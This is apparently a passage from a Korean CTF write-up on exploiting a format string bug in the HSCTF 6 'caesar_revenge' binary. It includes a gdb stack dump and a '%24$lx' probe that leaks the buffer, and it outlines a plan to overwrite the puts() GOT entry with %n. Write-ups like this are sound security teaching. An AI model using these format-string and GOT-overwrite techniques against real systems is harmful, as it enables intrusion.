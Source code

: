 shift key에 26을 넣으면 알파벳은 한 바퀴 돌아서 제자리로 돌아오기 때문에 평문이 변하지 않는다.

```bash
gdb-peda$ x/60gx $rsp
0x7fffffffddc0:	0x0000000000000002	0x800000000000000e
0x7fffffffddd0:	0x0000001a00000009	0x00007fffffffdde2
0x7fffffffdde0:	0x00000000000a3632	0x0000000000000000
0x7fffffffddf0:	0x0000000000000000	0x0000000000000000
0x7fffffffde00:	0x00007fffffffdee0	0x0000000000000000
0x7fffffffde10:	0x00007ffff7ffe738	0x0000000000000000
0x7fffffffde20:	0x0000000000000001	0x00007ffff7ffe710
0x7fffffffde30:	0x0000000000000000	0x000000006562b026
0x7fffffffde40:	0x00007ffff7ffea98	0x00007fffffffdf88
0x7fffffffde50:	0x4141414141414141	0x00007ffff7ff000a
0x7fffffffde60:	0x0000000000000000	0x00007ffff7de01ef
0x7fffffffde70:	0x0000000000000000	0x00007fffffffdfc0
0x7fffffffde80:	0x0000000000000000	0x0000000000000000
0x7fffffffde90:	0x0000000000000000	0x00007ffff7ffe710
0x7fffffffdea0:	0x00007ffff7b97787	0x00007ffff7a6f1bd
0x7fffffffdeb0:	0x00007fffffffdee0	0x00007ffff7dd0760
0x7fffffffdec0:	0x0000000000000d68	0x0000000000000001
0x7fffffffded0:	0x00007ffff7dd07e3	0x00007ffff7a70f51
0x7fffffffdee0:	0x00000000004020f0	0x00007ffff7dd0760
0x7fffffffdef0:	0x000000000000000a	0x00000000004020f0
0x7fffffffdf00:	0x00007ffff7dcc2a0	0x0000000000000000
0x7fffffffdf10:	0x0000000000000000	0x00007ffff7a71403
0x7fffffffdf20:	0x0000000000000025	0x00007ffff7dd0760
0x7fffffffdf30:	0x00000000004020f0	0x00007ffff7a64b62
0x7fffffffdf40:	0x00000000000000c2	0x0000000000000000
0x7fffffffdf50:	0x00007fffffffdf80	0x4eb51440eb110600
0x7fffffffdf60:	0x00007fffffffdf80	0x00000000004014b8
0x7fffffffdf70:	0x00007fffffffe060	0x000003e800000000
0x7fffffffdf80:	0x00000000004014c0	0x00007ffff7a05b97
0x7fffffffdf90:	0x0000000000000001	0x00007fffffffe068
```

버퍼는 `$rsp+0x50`부터 시작됨을 확인할 수 있다. 그러면 format string bug를 발생시켰을 때 `rsi`, `rdx`, `rcx`, `r8`, `r9` 부터 출력된 다음 스택에서 `rsp`에서부터 8바이트씩 출력되기 시작하여 19번째로 평문이 출력될 것이다. 즉, 24개의 서식 문자를 쓰면 버퍼에 접근할 수 있다. 확인해 보자.

```bash
gdb-peda$ r
Starting program: /home/josj0225/HSCTF 6/caesar_revenge 
Welcome to the Caesar Cipher Encoder!
Enter text to be encoded: AAAAAAAA%24$lx
Enter number of characters to shift: 26
Result: AAAAAAAA4141414141414141
```

정확히 우리가 원하는 위치의 값이 출력되었다.

---

이제 공격을 수행해 보자. 먼저 `puts()`의 GOT주소에 `caesar()`의 시작 주소를 넣을 것이다. 스택에 `puts()`의 GOT 주소를 적어 두고, 스택의 그 위치로 접근하여 `%n`을 사용하면 된다.
